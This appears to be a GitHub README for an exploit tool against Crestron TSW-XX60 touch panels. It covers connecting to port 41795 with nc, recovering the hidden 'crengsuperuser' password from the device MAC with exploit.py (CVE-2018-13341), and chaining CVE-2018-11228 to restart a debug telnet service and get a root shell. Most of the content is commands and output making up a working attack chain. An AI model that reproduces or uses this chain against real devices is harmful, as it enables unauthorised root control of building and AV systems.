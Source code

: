# CVE-2018-13341
This Tool Aims to Exploit the CVE-2018-13341, By Using the MAC address of the targeted device, you can recover the password of the *"crengsuperuser"* hidden account which has elevated privileges and allow you to run **SUDO** commands.


The Crestron Toolbox Protocol (CTP) can be connected to by accessing port **41795** on the TSW-XX60 device.

```bash
# nc -C w.x.y.z 41795
TSW-760 Control Console

TSW-760> estat

The EST command has been made obsolete. Please use IPCONFIG instead.
Ethernet Adapter [XYZ]:
	Link Status ....... : OK
	DHCP .............. : ON
	MAC Address ....... : 00.XX.XX.XX.XX.XX
	IP Address ........ : [removed]
	Subnet Mask ....... : [removed]
	IPV6 Address ...... : [removed]
	Default Gateway ... : [removed]


	DNS Servers ........ : [removed]    | DHCP      |
	                       [removed]    | DHCP      |
```

## Requirements

This tool requires the CryptoGraphy module.

```bash
# pip3 install cryptography
```
**OR**
```bash
# pip3 install -r requirements.txt
```

## Getting Started

```bash
usage: exploit.py [-h] [-m MAC]


# Example
# python3 exploit.py -m aabbccddeeff
[*] Device MAC address: AAXXYYZZ
[*] Password for 'crengsuperuser': somerandompass
```

## Exploiting the CVE-2018-11228

The [CVE-2018-11228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-11228) allows unauthenticated RCE via Bash Shell Service in Crestron Terminal Protocol (*CTP*). After getting the password of the *"crengsuperuser"* hidden account you can get a **root** access on the Machine.

```bash
# nc -C w.x.y.z 41795

TSW-760 Control Console

TSW-760> TELNETPORT OFF
Telnet Port: Off
TSW-760> SUDO RESTARTSERVICE telnetd_debug
Username: crengsuperuser
Password: **************

Service telnetd_debug restarted

TSW-760>
```

Then, in a new shell, you can get **root** access on the box.

```bash
# telnet w.x.y.z

bash# whoami
root
```

```
Credit Goes to : axcheron 
```
